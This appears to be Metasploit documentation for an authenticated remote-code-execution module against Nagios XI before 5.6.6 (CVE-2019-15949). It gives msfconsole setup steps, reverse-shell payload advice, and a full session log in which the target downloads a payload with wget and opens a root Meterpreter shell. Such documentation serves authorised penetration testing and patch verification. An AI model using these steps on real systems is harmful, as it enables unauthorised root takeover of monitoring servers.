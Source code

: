 ## Introduction
This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.

The module first checks if the supplied credentials are valid and belong to a user with permissions to modify plugins. It then exploits these permissions by uploading a malicious plugin to the target and subsequently sending an HTTP GET request to profile.php?cmd=download. This request downloads a system profile from the server and in the process launches the getprofile.sh script as root via a passwordless sudo entry. This script executes the malicious plugin as root.

For all supported targets except `Linux (cmd)`, the module uses a command stager to write the exploit to the target via the malicious plugin. However, this method may not work if Nagios XI is running in a restricted Unix environment like a minimal/custom CentOS installation. In the latter case, the target must be set to `Linux (cmd)`. For this target, the module writes the payload directly to the malicious plugin while avoiding commands that may not be supported in a restricted environment. It is recommended to use the target's default `cmd/unix/reverse_bash` payload in this scenario.

If the target is found to be vulnerable but the module completes without establishing a session, try increasing the value of `WfsDelay` (the additional delay when waiting for a session). The default value of this advanced option is 10 seconds. To check it, run `show advanced`. Other possible solutions are changing the payload, manually setting the value of the `CMDSTAGER::FLAVOR` advanced option, and setting the target to `Linux (cmd)` as explained above.

Valid credentials for a user with administrative privileges are required. This module was successfully tested on Nagios XI 5.6.5 running on CentOS 7. Please note that the module may behave differently when run against older versions of Nagios XI. For instance, during a test against Nagios XI 5.4.10, the module failed to trigger execution of the payload. Instead, the payload was executed randomly after a period of time (up to 5 minutes). Moreover, the session that was ultimately established, was not a root session.

## Vulnerable system
Nagios XI before 5.6.6.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/nagiosxi_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `set USERNAME [username]`
7. Do: `set PASSWORD [password]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `set LPORT [port]`
11. Do: `exploit`

## Options
1. `USERNAME`. The username to authenticate with. This user should have permissions to modify plugins. The default setting is `nagiosadmin`, which is the default admin account for Nagios XI systems.
2. `PASSWORD`. The password to authenticate with.

## Targets
0. Linux (x86)
1. Linux (x64) # This is the default target.
2. Linux (cmd) # If wget is not installed on the target, this target should be selected together with the payload cmd/unix/reverse_bash.

## Scenarios
```
msf5 exploit(linux/http/nagiosxi_authenticated_rce) > show options

Module options (exploit/linux/http/nagiosxi_authenticated_rce):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   P@ssw0rd!             yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.1           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                    yes       The target port (TCP)
   SRVHOST    192.168.1.2           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                  yes       The local port to listen on.
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                     yes       Base path to NagiosXI
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin           yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagiosxi_authenticated_rce) > run
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Found Nagios XI application with version 5.6.5.
[*] Using URL: http://192.168.1.2:8080/eFFP5lYvZ8eCnR0
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100% done (121/121 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Client 192.168.1.1 (Wget/1.14 (linux-gnu)) requested /eFFP5lYvZ8eCnR0
[*] Sending payload to 192.168.1.1 (Wget/1.14 (linux-gnu))
[*] Sending stage (3021284 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:56510) at 2020-02-27 16:27:49 +0100
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
## References
1. <https://github.com/jakgibb/nagiosxi-root-rce-exploit>
2. <https://nvd.nist.gov/vuln/detail/CVE-2019-15949>